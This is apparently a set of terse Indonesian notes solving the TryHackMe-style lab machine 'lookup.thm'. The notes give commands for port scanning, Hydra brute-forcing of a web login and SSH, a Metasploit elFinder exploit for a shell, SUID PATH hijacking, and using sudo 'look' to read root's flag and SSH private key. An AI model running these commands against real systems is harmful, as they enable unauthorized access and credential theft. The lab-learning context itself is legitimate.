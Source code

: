 1. scan nmap -> 80 kebuka -> masukin etc hosts
2. brute pake seclist username names -> ketemu jose -> coba brute username di burp aja soalnya response salah username nya keliatan
3. hydra -l jose -P rockyou.txt lookup.thm http-form-post "/login.php:username=^USER^&password=^PASS^:TergantungResponse isi Wrong aj" -V -f
4. ketemu password123
5. ketemu subdomain files.lookup.thm -> elfinder -> search di msfconsole -> ambil yg php conector 
6. show options -> rhost subdomain -> lhost ip vpn -> run
7. masuk meterpreter -> shell -> pindah ke /tmp -> run find / -perm -u=s -type f 2>/dev/null -> ada pwm usr/sbin
8. pindahin aja -> export PATH=/tmp:$PATH -> echo $PATH -> run pwm di /tmp
9. bikin file id -> echo '#!/bin/bash' > id -> lanjut isinya id gini
10. echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id -> think di dapet dari /home
11. chmod +x id -> run pwm -> mungkin itu wordlist password ssh think
12. hydra -l think -P wordlistnya.txt ip shh -V -f -> login ssh
13. sudo -l -> ada look -> cek gtfo 
14. bisa liat file root -> sudo look '' "/root/root.txt" misal -> atau id rsa aja terus login nanti pake root@ip
15. sudo look '' ".ssh/id_rsa" -> kalau root -> sudo look '' "/root/.ssh/id_rsa" copas -> chmod 600 id_rsa -> ssh -i kesitu

